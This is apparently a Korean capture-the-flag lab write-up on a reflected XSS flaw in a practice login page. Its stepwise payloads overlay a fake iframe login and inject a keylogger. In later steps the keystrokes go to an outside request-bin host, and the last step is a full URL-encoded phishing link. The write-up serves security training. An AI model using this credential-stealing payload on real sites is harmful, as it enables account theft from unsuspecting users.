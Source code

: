```yaml
---
title: "XSS 실습 7번"
excerpt: "XSS 실습 7번 문제를 풀어보자."
tags:
    - XSS
    - Reflected XSS
last_modified_at: 2023-05-29T09:13:00-05:00
---
```


## XSS 란?
- 크라이언트 측 스크립트를 삽입하는 공격이다.

## XSS 7번 문제
- 키로거를 삽입하여 사용자의 계정을 탈취하는 문제이다.


## 사이트 분석 및 취약점 탐색

### 로그인
- POST 와 GET 두 방식으로 로그인이 가능하다.

### 로그인 실패 페이지
- XSS 취약점이 존재한다.<br>![Pasted image 20230529012624](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/7654383c-c4bd-441c-aef4-5b3de1abd353)<br>![Pasted image 20230529012643](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/d8efcad7-ebd2-45f6-8532-6d6a18772543)
- 아이디 대신 스크립문을 삽입할 수 있다.<br>![Pasted image 20230529013321](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/bc4ab412-10ca-453e-8aca-15254576ec26)<br>![Pasted image 20230529013241](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/13cd15a9-8863-4135-9098-c5611767d780)



## 공격 시나리오
1. login.html 에서 사용자가 로그인을 시도하는 것이 아닌 login.php에서 사용자가 로그인을 시도하도록 하자.
2. login.php의 XSS 취약점을 이용하여 키로그를 삽입한다.
3. 사용자에게 공격자가 준 링크를 통해 페이지에 방문하여 로그인 하도록 해야한다.


## 공격 시작
1. alert 창 안뜨게 만들기. 첫번째 스크립트는 일부러 오류를 유발시켜 동작안되도록 하였다. 따라서 `alert(1)` 이 경고창으로 뜨는 것을 확인할 수 있다.
```html
<script>
alert('[ id'
</script>
<script>
alert(1);// ] ~~~');
</script>
<script>window.location.href='login.html';</script>
```
```
완성 공격문 = id'</script><script>alert(1);//
```
![Pasted image 20230529015248](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/343cd063-2ed6-4cc2-8611-ead3b5e960b3)

2. `href` 를 통해 자동으로 리다이렉트 형상 막기. html 주석 처리 기능을 이용하여 `href` 스크립트 부부을 주석처리 해준다. 확인 버튼을 눌러도 `login.html` 로 리다이렉션하지 않고 `login.php` 에 머문다.
```html
<script>
alert('[ id'
</script>
<script>
alert(1);
</script><!--// ] ~~~');
</script>
<script>window.location.href='login.html';</script>
```
```
완성 공격문 = id'</script><script>alert(1);</script><!--//
```
![Pasted image 20230529020238](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/869eb7fb-9a97-44c7-801c-7b6686f08df2)<br>![Pasted image 20230529020302](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/d92d7de7-328b-4ba7-a497-1d1465e2f677)


3. 사용자는 정상적인 로그인 페이지가 보여야한다. 따라서 `iframe` 을 통해 로그인 창 보이게 한다. 공격문을 id에 넣고 로그인을 하면 `login.php` 에서 로그인 페이지가 나오는 것을 확인할 수 있다.
<script src="https://gist.github.com/MinGyu2/e2b89c91fab5b1368f8bc58efd245e22.js"></script>
```
완성 공격문 =
id'</script><iframe style="position:absolute;border:none;overflow:hidden;overflow-x:hidden;overflow-y:hidden;height:100%;width:100%;top:0px;left:0px;right:0px;bottom:0px" src='login.html'></iframe><!--//
```
![Pasted image 20230529022346](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/5e9676ba-637a-4b09-8913-16a4e8f78c7d)


4. 사용자가 입력하는 아이디와 비번을 알아내기위한 키로거를 넣어보자. 그리고 키로거를 이용하여 사용자 입력을 200ms 주기로 콘솔에 출력해보자.
<script src="https://gist.github.com/MinGyu2/c2557af1a361f188bfc86138b17b17d0.js"></script><br><script src="https://gist.github.com/MinGyu2/d0cd73f4feb2e940ea44d7d8b5cbae57.js"></script>
```
공격문 = 
id'</script><iframe style="position:absolute;border:none;overflow:hidden;overflow-x:hidden;overflow-y:hidden;height:100%;width:100%;top:0px;left:0px;right:0px;bottom:0px" src='login.html' onload='load()'></iframe><script>var keys = "";function load(){var win = document.getElementsByTagName('iframe')[0].contentWindow;win.onkeydown=(e)=>{key = e.keyCode?e.keyCode:e.charCode;key = String.fromCharCode(key);keys += key;}}window.setInterval(function(){if(keys != ''){console.log(keys);keys='';}}, 200);</script><!--//
```
![Pasted image 20230529030914](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/f83fc784-7b5c-4f08-bf73-10774b39ad7c)<br>
![Pasted image 20230529030931](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/a58cfab3-8e93-481b-8246-efcd720ff3d9)

5. 공격자 서버로 사용자 입력 보내기. 사용자의 입력을 `Image` 를 이용하여 공격자 서버로 보낸다.
<script src="https://gist.github.com/MinGyu2/66fcfc1763b5cb43c951ba7c39a6cc33.js"></script>
```
공격문 = 
id'</script><iframe style="position:absolute;border:none;overflow:hidden;overflow-x:hidden;overflow-y:hidden;height:100%;width:100%;top:0px;left:0px;right:0px;bottom:0px" src='login.html' onload='load()'></iframe><script>var keys = "";var hackURL = "https://envs1y92en6c.x.pipedream.net/?v=";function load(){var win = document.getElementsByTagName('iframe')[0].contentWindow;win.onkeydown=(e)=>{key = e.keyCode?e.keyCode:e.charCode;key = String.fromCharCode(key);keys += key;}}window.setInterval(function(){if(keys != ''){new Image().src = hackURL+keys;keys='';}}, 1000);</script><!--//
```
![Pasted image 20230529035800](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/d451186b-0c43-4949-9dae-dad6b2bb8617)
![Pasted image 20230529040046](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/816c929e-21b6-4a90-92c9-0ad7a4c7aad0)
![Pasted image 20230529035816](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/be7c8f83-620d-4cfa-9227-a3b70eef1dd8)

6. 로그인에 성공하면 실제 메인 페이지를 보여줘야 의심이 안간다. 즉 로그인에 실패하면 iframe 내에서 로그인을 다시 시도해야하고, 성공하면 정상적으로 로그인 성공한 것으로 보이기위하여 `index.php`로 이동한다.<br><script src="https://gist.github.com/MinGyu2/81cbf0b824103cc9bc0c0c1f5a52b64f.js"></script>
```
공격문 = 
id'</script><iframe style="position:absolute;border:none;overflow:hidden;overflow-x:hidden;overflow-y:hidden;height:100%;width:100%;top:0px;left:0px;right:0px;bottom:0px" src='login.html' onload='load()'></iframe><script>var keys = "";var hackURL = "https://enhrvcr5t8jsk.x.pipedream.net/?v=";function load(){var win = document.getElementsByTagName('iframe')[0].contentWindow;var s = win.location.href;if(s!='http://ctf.segfaulthub.com:4343/xss_7/login.html'){location.href="index.php";new Image().src = hackURL+"success";}else{new Image().src = hackURL+"fail";}win.onkeydown=(e)=>{key = e.keyCode?e.keyCode:e.charCode;key = String.fromCharCode(key);keys += key;}}window.setInterval(function(){if(keys != ''){new Image().src = hackURL+keys;keys='';}}, 1000);</script><!--//
```
- 로그인 성공<br>![Pasted image 20230529042336](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/596bb9cf-ad96-4863-acc8-d76a3188bfa5)<br>![Pasted image 20230529042328](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/e874aec8-af9e-48d5-b053-49bd57473b6b)
- 로그인 실패<br>![Pasted image 20230529042229](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/917e710b-4fba-491c-8e49-4a4db21c3fee)<br>![Pasted image 20230529042237](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/308c8ff8-386d-4547-a168-940215b06ce7)

7. 로그인을 GET요청으로 할 수 있음으로 Reflected XSS 취약점으로 활용할 수있다. 따라서 Get요청으로 공격하기 위해서 id 파라미터에 공격 스크립트를 넣어 링크를 눌러 사용자가 접속하여 로그인 하도록 유도 하면 된다.
```
http://ctf.segfaulthub.com:4343/xss_7/login.php?id=id%27%3C%2Fscript%3E%3Ciframe+style%3D%22position%3Aabsolute%3Bborder%3Anone%3Boverflow%3Ahidden%3Boverflow-x%3Ahidden%3Boverflow-y%3Ahidden%3Bheight%3A100%25%3Bwidth%3A100%25%3Btop%3A0px%3Bleft%3A0px%3Bright%3A0px%3Bbottom%3A0px%22+src%3D%27login.html%27+onload%3D%27load%28%29%27%3E%3C%2Fiframe%3E%3Cscript%3Evar+keys+%3D+%22%22%3Bvar+hackURL+%3D+%22https%3A%2F%2Fenhrvcr5t8jsk.x.pipedream.net%2F%3Fv%3D%22%3Bfunction+load%28%29%7Bvar+win+%3D+document.getElementsByTagName%28%27iframe%27%29%5B0%5D.contentWindow%3Bvar+s+%3D+win.location.href%3Bif%28s%21%3D%27http%3A%2F%2Fctf.segfaulthub.com%3A4343%2Fxss_7%2Flogin.html%27%29%7Blocation.href%3D%22index.php%22%3Bnew+Image%28%29.src+%3D+hackURL%2B%22success%22%3B%7Delse%7Bnew+Image%28%29.src+%3D+hackURL%2B%22fail%22%3B%7Dwin.onkeydown%3D%28e%29%3D%3E%7Bkey+%3D+e.keyCode%3Fe.keyCode%3Ae.charCode%3Bkey+%3D+String.fromCharCode%28key%29%3Bkeys+%2B%3D+key%3B%7D%7Dwindow.setInterval%28function%28%29%7Bif%28keys+%21%3D+%27%27%29%7Bnew+Image%28%29.src+%3D+hackURL%2Bkeys%3Bkeys%3D%27%27%3B%7D%7D%2C+1000%29%3B%3C%2Fscript%3E%3C%21--%2F%2F&pw=123
```

8. 사용자가 로그인 창에 아이디와 비밀번호를 입력하면 공격자 서버로 아이디와 비밀번호가 전송된다. <br>![Pasted image 20230529042638](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/aecb22ef-f21a-4517-9ec9-3fb4f6d57a1e)<br>![Pasted image 20230529042652](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/a2ddcfb2-659d-4efb-8db6-9cf70beb8ff7)


## 후기 
- 키로거를 사용하여 공격자 서버로 직접 사용자의 입력을 받아보았다. url을 주의깊게 보지않는이상 사용자는 이상있는지 확인하기 어렵다는 것을 알 수 있었다. 키로거를 이용한 새로운 공격이라 흥미로웠다.